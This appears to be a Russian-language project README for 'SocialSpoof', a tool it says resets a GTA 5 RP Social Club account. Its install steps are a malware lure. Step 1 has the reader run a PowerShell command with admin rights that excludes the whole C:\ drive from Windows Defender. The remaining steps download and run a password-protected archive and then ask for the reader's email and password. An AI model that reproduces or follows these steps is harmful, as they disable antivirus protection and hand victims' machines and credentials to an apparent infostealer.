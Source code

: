 # SocialSpoof - Как сбросить ваш Social Club для аккаунта GTA 5 RP
                                        
📖 В этой статье я расскажу вам, как это сделать. 👇

                                                  🔧Установка

Шаг 1 ⚙️

Сделайте расширение системных файлов RAGE MP

Нажмите комбинацию Windows+R и введите команду 
powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"

Шаг 2 📥

Как только выполнили расширение, загрузите SocialSpoof

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите софт, и заходите в игру

Шаг 5 ✏️

Введите почту и пароль.

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
